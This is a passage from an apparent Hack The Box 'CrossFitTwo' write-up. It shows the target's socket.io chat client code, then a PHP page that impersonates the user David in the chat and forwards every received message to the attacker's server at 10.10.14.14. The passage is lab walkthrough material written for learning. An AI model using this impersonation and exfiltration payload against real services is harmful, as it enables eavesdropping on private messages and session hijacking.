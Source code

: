 ```javascript
                                avatar: `https://avatars.dicebear.com/4.5/api/gridy/${e[t].username}.svg`,
                                new: !1,
                                unreadCount: 0,
                                roomName: e[t].username,
                                users: []
                            };
                            a.users.push(this.getCurrentUser()), a.users.push(e[t]), this.rooms.push(a)
                        }
                    },
                    sendGlobal: function(e, t) {
                        const a = {
                            sender_id: xe.id,
                            content: e,
                            roomId: t
                        };
                        xe.emit("global_message", a)
                    },
                    sendPrivate: function(e, t) {
                        const a = {
                            sender_id: xe.id,
                            content: e,
                            roomId: t
                        };
                        xe.emit("private_message", a)
                    },
                    sendMessage: function({
                        content: e,
                        roomId: t,
                        file: a,
                        replyMessage: s
                    }) {
                        "global" === t ? this.sendGlobal(e, t) : this.sendPrivate(e, t)
                    }
                }
...
```

Which is a chat platform based on WebSocket.

We can return to David's user HTML page with javascript that communicates with this WebSocket chat as a client, when the message is received we will send the content to our web server.

So to do that, first we need to return the following HTML page from [password-reset.php](scripts/password-reset.php) ([socket.io download](https://www.cdnpkg.com/socket.io/file/socket.io.min.js/)):
```javascript
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ cat php_Server/password-reset.php 
<?php
$request_headers = $_SERVER;
file_put_contents('request_headers.out',print_r($request_headers, true));

echo '<html>
<script src="http://10.10.14.14:8000/socket.io.min.js"></script>
<script>
	var socket=io.connect("http://crossfit-club.htb");
	socket.emit("user_join", { "username" : "David"});
	socket.on("recv_global", (data) => {
		var xhr = new XMLHttpRequest();
		xhr.open("GET", "http://10.10.14.14:8000/recv_global/" + JSON.stringify(data), true);
		xhr.send();
	});
	
```